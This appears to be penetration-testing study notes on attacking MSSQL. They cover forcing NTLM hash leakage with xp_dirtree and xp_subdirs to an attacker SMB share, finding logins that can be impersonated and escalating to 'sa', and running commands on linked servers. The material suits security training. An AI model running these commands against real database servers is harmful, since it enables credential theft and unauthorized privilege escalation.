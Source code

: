 ## Capture MSSQL Service Hash

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

## Impersonate Existing Users with MSSQL

#### Identify Users that We Can Impersonate
```cmd
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

```

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
```

>[!note]
> It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

## Communicate with Other Databases with MSSQL

#### Identify linked Servers in MSSQL

```cmd-session
> SELECT srvname, isremote FROM sysservers
2> GO
```

```cmd-session
> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

>[!note]
> The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement can be used to send pass-through commands to linked servers
